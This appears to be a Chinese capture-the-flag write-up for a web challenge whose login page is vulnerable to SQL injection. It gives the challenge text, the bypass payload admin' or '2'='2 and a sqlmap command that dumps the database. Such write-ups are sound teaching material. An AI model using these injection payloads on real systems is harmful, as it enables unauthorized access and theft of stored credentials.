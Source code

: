 # [Web] WearMe 核心机房 准入验证

- 命题人：You
- 我去，你怎么在这：100 分
- 我测，黑客！：200 分

## 题目描述

<p>在2077年的一个炎热的午后，出题人终于攻下了WearMe的运维控制系统。出题人觉得这套系统很眼熟，通过一系列社工手段得到这是人工智能AGI自主研发的友军验证系统以防人类嘿客在不通过WearMe赛博浏览器进入系统。</p>
<p><img alt="" src="https://oss.wearos.me/file/wmtest/tangpingcup/3.gif"></p>
<p>由于本站使用云火焰（Cloudflare）作为CDN，启动docker后可能需要几秒钟时间从CDN拉取资源，若提示GatewayError请等待30秒再刷新</p>
<p>由于安全问题 您仅能从<strong>中国大陆</strong>访问这道题目</p>
<div class="well">
<strong>第二阶段提示</strong>
<p>
有个东西，叫万能密码~
</p>
</div>

**【网页链接：访问题目网页】**

## 预期解法

### flag1

第一步，打开题目，第二步，按下admin' or '2'='2和任意字符串，第三步，按下登录，好了flag拿到了（？

### flag2

flag2就需要知道密码是啥了，这次比赛使用sqlmap就行。
```console
sqlmap -u "http://DOMAIN_SUFFIX.weilei.software/check.php?data=user:*|pass:*" --dbms=mysql --dump
```

